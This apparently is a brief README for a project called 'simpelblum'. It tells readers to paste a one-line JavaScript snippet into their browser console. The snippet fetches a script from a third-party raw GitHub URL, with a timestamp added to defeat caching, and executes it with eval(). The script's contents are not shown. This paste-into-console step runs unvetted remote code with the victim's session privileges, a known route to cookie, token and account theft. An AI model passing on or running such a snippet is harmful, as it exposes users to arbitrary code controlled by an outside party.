 # simpelblum
just paste this code on your console :)
var unixTime = Date.now();  var url = 'https://raw.githubusercontent.com/xfaryadx/scripts/main/belumm.js' + '?' + unixTime;  fetch(url)   .then(response => response.text())   .then(script => eval(script));
